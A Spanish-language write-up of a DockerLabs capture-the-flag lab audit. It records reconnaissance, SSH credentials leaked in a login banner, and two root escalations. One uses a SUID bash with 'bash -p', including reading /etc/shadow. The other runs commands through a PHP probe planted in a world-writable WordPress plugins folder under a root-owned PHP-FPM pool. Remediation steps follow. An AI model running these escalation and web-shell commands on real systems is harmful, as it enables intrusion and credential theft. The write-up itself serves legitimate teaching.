





# Auditoría de Seguridad — ACME Corp (DockerLabs)

- **Objetivo:** 172.17.0.2
- **Fecha:** 2026-10-17
- **Autor:** chifay
- **Clasificación:** Máquina de laboratorio (DockerLabs / dockerlabs.es)

---

## Banderas

| Nivel | Ubicación | Valor |
|---|---|---|
| Usuario | `/home/usuario/user.txt` | `FLAG{nmap_recon_ssh_foothold_7a9f24e1}` |
| Root | `/root/root.txt` | `FLAG{wp2shell_cve_2026_63030_core_rce_root_99d10c8b}` |

---

## Resumen ejecutivo

Dos banderas obtenidas. Se identificaron **dos vectores de escalada a root
independientes**, ninguno de los cuales requiere explotar una vulnerabilidad de
WordPress:

| Vector | Descripción | Esfuerzo | Remediación |
|---|---|---|---|
| **A — SUID** | `/usr/bin/bash` con bit SUID root (`4755`); `bash -p` conserva el euid | **1 comando** | `chmod 4755` → `chmod u-s` |
| **B — WordPress** | `wp-content/` en `777` + pool de PHP-FPM con `user = root` | 2 cambios de config | 2 líneas de configuración |

Cadena de ataque:

```
nmap → banner SSH con credenciales → usuario →
      ┌─ Vector A: bash SUID (4755) ─────┐
      └─ Vector B: plugins/777 + FPM root ─┴→ root
```



**Conclusión principal:** el Vector A es una escalada trivial, evitable con un
único `chmod`. Es el hallazgo de mayor prioridad. Además, parchear las CVE de
WordPress **no cerraría** el Vector B, porque se trata de una mala
configuración de permisos y no de código vulnerable.

---

## Fase 1 — Reconocimiento

Se realizó un escaneo completo de los 65535 puertos TCP con detección de
servicio y scripts NSE:

```
$ nmap -p- -sV -sC -sT -vv -n -Pn --min-rate=5000 172.17.0.2
```

> Se empleó `-sT` (connect scan) en lugar de `-sS` (SYN scan) por no disponer
> de privilegios `sudo` en el auditor. El resultado es equivalente en detección
> de puertos y versiones; la única diferencia observable es el campo `REASON`
> (`syn-ack` frente a `conn-refused`).



**Resultado: 2 de 65535 puertos abiertos.**

| Puerto | Servicio | Versión | Detalle |
|---|---|---|---|
| 22/tcp | SSH | OpenSSH 8.9p1 Ubuntu 3ubuntu0.16 | keys ECDSA + ED25519 |
| 80/tcp | HTTP | Apache/2.4.52 (Ubuntu) | "ACME Corporation - Portal en Mantenimiento" |

Los NSE dejaron además dos rastros que dirigieron la investigación:

```
| http-robots.txt: 1 disallowed entry
|_/migration_notes.txt
```

`/migration_notes.txt` indica explícitamente: *"El acceso a este servidor se
canaliza por SSH (puerto 22). Consulte el banner de conexion de SSH para
obtener las instrucciones del nodo."* — lo que conduce directamente a la Fase 2.

### Limitación del escaneo externo

El escaneo desde fuera solo revela 22 y 80. Los servicios internos
`127.0.0.1:8080` (WordPress) y `127.0.0.1:9000` (PHP-FPM) escuchan
**exclusivamente en loopback** y por tanto no aparecen en el resultado. Esta
observación es la que justifica la enumeración interna de la Fase 4: **el
Vector B no es detectable desde la red**, solo desde una sesión ya comprometida.

## Fase 2 — Credenciales filtradas en el banner SSH

**Severidad: Crítica**

`Banner /etc/issue.net` se imprime **antes** de la autenticación, por lo que
cualquiera que abra el puerto 22 recibe las credenciales:

```
$ ssh usuario@172.17.0.2
===================================================================
[*] ACME Corporation - Nodo Bastion de Mantenimiento Interno
[!] Credenciales temporales asignadas para tareas de mantenimiento:
[!]   - Usuario: usuario
[!]   - Password: P@ssw0rd2026_CTF!
```

**Recomendación:** nunca incluir credenciales en banners SSH/MOTD; rotar la
contraseña; restringir por IP; desactivar la autenticación por contraseña.

## Fase 3 — Acceso y bandera de usuario

```
$ id
uid=1000(usuario) gid=1000(usuario) groups=1000(usuario)

$ cat /home/usuario/user.txt
FLAG{nmap_recon_ssh_foothold_7a9f24e1}
```

## Fase 4 — Enumeración

Una sola sesión sin privilegios reveló **tres** hallazgos independientes:

```
$ find / -xdev -perm -4000 -type f 2>/dev/null
  →  /usr/bin/bash   -rwsr-xr-x root root      ← VECTOR A

$ grep -vE '^\s*;|^\s*$' /etc/php/8.1/fpm/pool.d/www.conf
  →  user = root  /  group = root               ← VECTOR B (parte 1)

$ ls -la /var/www/wordpress/wp-content/plugins/
  →  drwxrwxrwx    permisos 777                 ← VECTOR B (parte 2)

$ grep -rh DocumentRoot /etc/apache2/sites-available/
  →  /var/www/maintenance (:80)  ·  /var/www/wordpress (127.0.0.1:8080)

$ ss -tlnp | grep -E '8080|9000'
  →  servicios internos solo en loopback
```



---

## Vector A — Shell con bit SUID (CRÍTICO)

**Severidad: Crítica · CWE-732 · Escalada de privilegios local**

### El hallazgo

```
$ ls -la /usr/bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14 2024 /usr/bin/bash
$ stat -c "%A %a" /usr/bin/bash
-rwsr-xr-x 4755
```

El bit **s** (setuid) está activo en el grupo de propietario. El kernel asigna
`euid=0` a cualquier proceso que ejecute este binario, sea cual sea el usuario
que lo invoque.

### La escalada

La bandera `-p` (*privileged mode*) de bash **no repone** el euid efectivo al
valor del usuario real; lo conserva. Por eso un shell SUID se convierte
directamente en root:

```
$ /usr/bin/bash -c  "id"
uid=1000(usuario) gid=1000(usuario) groups=1000(usuario)
euid=1000                                  ← sin privilegios

$ /usr/bin/bash -p -c "id"
uid=1000(usuario) gid=1000(usuario) euid=0(root) groups=1000(usuario)
euid=0                                     ← ROOT
```



### Verificación de capacidades reales

No se trata de un `euid` cosmético: se confirmaron **lectura y escritura**:

```
$ /usr/bin/bash -p -c 'cat /root/root.txt'
FLAG{wp2shell_cve_2026_63030_core_rce_root_99d10c8b}

$ /usr/bin/bash -p -c 'echo x > /root/.f && rm -f /root/.f'
WRITE TO /root: OK

$ /usr/bin/bash -p -c 'head -1 /etc/shadow'
root:*:20675:0:99999:7:::
```

### Binario también afectado

`/usr/bin/dash` (`-rwsr-xr-x`, 125688) presenta el mismo problema:
`dash -p -c "id"` devuelve `euid=0(root)`.

### Por qué es una mala configuración

Ningún shell legítimo lleva el bit SUID: la distribución original lo instala con
`0755`. El bit existe para binarios como `sudo`, `su` y `passwd`, cuya función
**es** cambiar de identidad. Un shell SUID concede privilegios sin ningún control
intermedio.

**Remediación:**

```bash
chmod u-s /usr/bin/bash /usr/bin/dash
# verificación: debe mostrar -rwxr-xr-x (755), sin 's'
ls -la /usr/bin/bash /usr/bin/dash
```

Auditoría preventiva del mismo patrón en producción:

```bash
find / -xdev -perm -4000 -type f -exec ls -la {} \; 2>/dev/null | \
  grep -E '/(ba|z|k|c|tc|da)?sh$|/(ba|z|k|c|tc|da)sh$'
```

---

## Vector B — WordPress: permisos 777 + PHP-FPM como root (CRÍTICO)

**Severidad: Crítica · CWE-732 · CWE-250**

### Parte 1 — Directorios de WordPress escribibles por cualquiera

```
drwxrwxrwx  www-data  /var/www/wordpress/wp-content/
drwxrwxrwx  www-data  /var/www/wordpress/wp-content/plugins/
drwxrwxrwx  www-data  /var/www/wordpress/wp-content/themes/
```

El `777` permite a **cualquier usuario local** escribir un `.php` dentro del
`DocumentRoot`. No se requiere login de WordPress, ni subida de plugin, ni
vulnerabilidad de aplicación. Se verificó que `hello.php` es el Hello Dolly 1.7.2
original, sin backdoor.

### Parte 2 — El pool de PHP-FPM ejecuta como root

`/etc/php/8.1/fpm/pool.d/www.conf`:

```ini
[www]
user = root          ← causa raíz
group = root
listen = 127.0.0.1:9000
```

Combinado con el `SetHandler "proxy:fcgi://127.0.0.1:9000"` de Apache, **todo**
PHP servido por ese vhost se ejecuta con `uid=0`, aunque Apache corra como
`www-data`.

### Explotación

```bash
# 1. Escribir el archivo (directorio 777)
cp probe.php /var/www/wordpress/wp-content/plugins/

# 2. Solicitarlo por loopback; Apache lo delega a FPM
curl "http://127.0.0.1:8080/wp-content/plugins/probe.php?c=id"
  → uid=0(root) gid=0(root) groups=0(root)

curl "http://127.0.0.1:8080/wp-content/plugins/probe.php?c=cat%20/root/root.txt"
  → FLAG{wp2shell_cve_2026_63030_core_rce_root_99d10c8b}
```

**Remediación:**

```ini
# 1. Pool como usuario sin privilegios
user = www-data
group = www-data
listen = /run/php/php8.1-fpm.sock    # socket Unix, no alcanzable por usuarios
```

```bash
# 2. Permisos del árbol
chown -R root:www-data /var/www/wordpress
find /var/www/wordpress -type d -exec chmod 755 {} \;
find /var/www/wordpress -type f -exec chmod 644 {} \;
chmod 733 /var/www/wordpress/wp-content/uploads   # única escritura para www-data
```

---

## Los dos vectores, comparados



---

## Contexto: CVEs de WordPress (no explotadas)

`/root/patch_wp_vulnerable.php` documenta que la imagen reintroduce
intencionadamente vulnerabilidades en el Core:

- **CVE-2026-60137** — inyección SQL en `WP_Query` vía `author__not_in`
  (interpolación cruda en el `WHERE` en lugar de `wp_parse_id_list`).
- **CVE-2026-63030** — confusión de rutas por lotes en la REST API
  (se elimina `$matches[] = $single_request` al fallar la validación de un
  sub-request).

**Ninguna fue necesaria para la escalada.** Ambos vectores A y B son
configuración, no código vulnerable: parchear el Core no los cierra.

---

## Hallazgos consolidados

| # | Hallazgo | Severidad | Vector |
|---|---|---|---|
| 1 | `/usr/bin/bash` y `/usr/bin/dash` con bit SUID root (`4755`) | **Crítica** | A |
| 2 | Credenciales de producción en el banner SSH, previo a autenticación | **Crítica** | — |
| 3 | `wp-content/` con permisos `777` → escritura de PHP por cualquier usuario | **Crítica** | B |
| 4 | Pool de PHP-FPM con `user = root` → ejecución de PHP como root | **Crítica** | B |
| 5 | Servicios internos (WP `:8080`, FPM `:9000`) en loopback, accesibles desde cualquier shell | Alta | B |
| 6 | WordPress Core reintroducido a versión vulnerable (CVE-2026-60137 / CVE-2026-63030) | Alta | — |
| 7 | Credenciales de BD en `wp-config.php` legible (`0644`) | Media | B |
| 8 | `DISALLOW_FILE_MODS=false` y `FS_METHOD=direct` permiten instalar código vía panel | Media | B |
| 9 | Contraseña de usuario débil y publicada en un banner | Media | — |

## Recomendaciones priorizadas

1. **`chmod u-s /usr/bin/bash /usr/bin/dash`** — elimina el Vector A con un
   solo comando y sin ventana de mantenimiento.
2. **`user = www-data`** en el pool de PHP-FPM y migrar a **socket Unix** —
   elimina el Vector B.
3. **`chmod 755`** sobre el árbol de WordPress; escritura solo en `uploads/`.
4. **Quitar las credenciales** de `/etc/issue.net` y rotar la contraseña.
5. **Segmentar la red** para que los servicios internos no sean alcanzables
   desde sesiones de usuario.
6. **Credenciales de BD**: usuario MySQL sin privilegio `FILE`; `0640` en
   `wp-config.php`.
7. **Parchear el Core** a la versión corregida y fijar `DISALLOW_FILE_MODS=true`.
8. **Autenticación por clave SSH**, `PasswordAuthentication no`, y
   `PermitRootLogin` explícito.

---

## Nota metodológica

En la primera pasada de enumeración, `bash` apareció listado entre los binarios
SUID pero no se identificó como anómalo, y se priorizó la vía de WordPress.
El Vector A se detectó posteriormente mediante **revisión manual** de la lista
SUID, comparando cada binario con lo que la distribución instala por defecto.
La lección metodológica: **la lista de SUID requiere triage**, no lectura — un
shell con bit setuid debe tratarse como incidente crítico de inmediato.

## Evidencia y artefactos

| Archivo | Descripción |
|---|---|
| `evidence/` | **Evidencia capturada del objetivo**, organizada por fase (ver `evidence/README.md`) |
| `evidence/01-recon/` | Salidas del escaneo de puertos y del servidor web |
| `evidence/02-initial-access/` | Banner SSH con credenciales y bandera de usuario |
| `evidence/03-enumeration/` | SUID, pool de FPM, vhosts y permisos de `wp-content` |
| `evidence/04-vector-a-suid/` | Prueba de escalada por `bash -p` y lectura de la bandera root |
| `evidence/05-vector-b-wordpress/` | Secuencia de escalada por WordPress (escritura → HTTP → root) |
| `evidence/06-cleanup/` | Verificación de que el objetivo quedó sin artefactos |
| `evidence/SHA256SUMS` | Huellas SHA-256 de cada artefacto de evidencia |
| `tools/capture_evidence.sh` | Script que regenera toda la evidencia |
| `tools/rsh.example.sh` | Helper SSH; usa la variable de entorno `ACME_SSH_PASS` |
| `img/01-kill-chain.svg` / `.png` | Diagrama de la cadena de ataque completa |
| `img/02-suid-mechanism.svg` / `.png` | Mecanismo del bit SUID y efecto de `bash -p` |
| `img/03-two-vectors.svg` / `.png` | Comparación lado a lado de los dos vectores |
| `img/04-phases-recon.svg` / `.png` | Comandos y salidas de las fases 1–4 |
| `img/05-nmap-scan.svg` / `.png` | Ilustración de la salida del escaneo de puertos |
| `tools/audit_probe.php` | Sonda PHP usada para confirmar ejecución como root |
| `tools/check_clearance.py` | Verificador automático de desbordes de texto en los SVG (`getBBox()` real) |
| `tools/check_orphan.py` | Verificador de texto que queda fuera de todo panel |
| `tools/fcgi_pwn.py` | Cliente FastCGI para intentar hablar directo con FPM en `:9000` |
| `tools/fcgi_debug.py` | Variante con diagnóstico del mismo cliente |
| `tools/payload.php` | Payload PHP de prueba |
| `nmap_acme_own` | Salida del escaneo de puertos ejecutado en esta auditoría (Fase 1) |
| `inputs/nmap_acme`, `inputs/migration_notes.txt` | Aportados con el laboratorio |

### Intento con FastCGI directo

Se implementó un cliente FastCGI completo (`tools/fcgi_pwn.py`) para omitir Apache y
hablar directamente con `127.0.0.1:9000`. El kernel aceptaba la conexión pero el
proceso FPM la reseteaba antes de responder, incluso ante `FCGI_GET_VALUES`; esa
vía no resultó utilizable en esta configuración. La escalada efectiva se
consiguió por los Vectores A y B documentados arriba.

### Limpieza

`tools/audit_probe.php` fue **eliminado** del objetivo tras obtener la bandera.
Verificado: el archivo no existe, no responde con el contenido de la sonda, y
`/tmp` quedó sin residuos. El Vector A no dejó artefactos (no requiere escritura).
La prueba de esta limpieza está en `evidence/06-cleanup/cleanup_verification.txt`.

---

> ⚠️ **Manejo del material sensible:** la credencial del laboratorio aparece en
> `evidence/02-initial-access/ssh_banner_preauth.txt` porque **es la prueba**
> del hallazgo (fuga en el banner SSH). El helper `rsh.sh` con la contraseña en
> claro queda fuera del repositorio vía `.gitignore`; en su lugar se publica
> `tools/rsh.example.sh`, que la lee de la variable de entorno `ACME_SSH_PASS`.
> La imagen `acme.tar` (830 MB) tampoco se versiona.
